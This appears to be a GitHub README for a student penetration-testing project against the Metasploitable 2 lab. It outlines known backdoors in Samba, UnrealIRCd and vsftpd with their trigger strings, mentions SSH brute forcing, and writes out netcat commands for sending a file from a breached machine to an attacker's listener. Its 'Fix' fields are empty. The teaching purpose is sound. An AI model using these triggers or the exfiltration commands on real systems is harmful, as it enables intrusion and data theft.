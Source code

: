 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/).

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding of system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I will be using different python3 functions. This allows the users to be able to view well documented code in an easy to read format. 

## System Requirements:
- Metasploitable 2
- Virtualbox

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol.
- Exploit: If Samba is configured to use the non-default username map script, anyone can send arbitrary commands in disguise as a username to the server. The command will then be run without needing authorization.
- Fix: 

### UnrealRCD CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealRCD contains an exploit where it will execute any command send to the service if it begins with the string 'AB'. Ex: AB; [command to run]
- Fix:

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: The exploit occurs when a user tries to login with a username that ends with ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.
- Fix:

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security. Users can prevent brute force attacks by incorporating a proper firewall to filter out ip addresses, using public key authentication, using strong and unqiue passwords, etc....

## Post-Exploitation Example:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
